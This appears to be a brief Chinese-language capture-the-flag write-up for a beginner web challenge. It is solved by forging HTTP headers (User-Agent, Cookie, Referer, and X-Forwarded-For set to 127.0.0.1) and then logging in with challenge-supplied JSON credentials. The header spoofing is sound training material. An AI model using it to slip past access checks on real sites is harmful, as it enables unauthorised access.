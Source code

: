 ![[Pasted image 20230131091204.png|500]]

![[Pasted image 20230131091221.png|500]]

一开始没想到是改`UA`的我破大防（

```http
User-Agent: Cute-Bunny
```

```
每一个能够成为会员的顾客们都应该持有名为Vidar的邀请码（code）
```

```http
Cookie: code=Vidar
```

```
由于特殊原因，我们只接收来自于bunnybunnybunny.com的会员资格申请
```

```http
Referer: bunnybunnybunny.com
```

```
就差最后一个本地的请求，就能拿到会员账号啦
```

```http
X-Forwarded-For: 127.0.0.1
```

```
username:luckytoday password:happy123（请以json请求方式登陆）
```

```http
GET / HTTP/1.1
Host: week-1.hgame.lwsec.cn:32575
Upgrade-Insecure-Requests: 1
User-Agent: Cute-Bunny
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: code=Vidar
Referer: bunnybunnybunny.com
X-Forwarded-For: 127.0.0.1
Connection: close
Content-Length: 49

{"username":"luckytoday", "password": "happy123"}
```

![[Pasted image 20230131093901.png|700]]

#Web #HTTP #Header 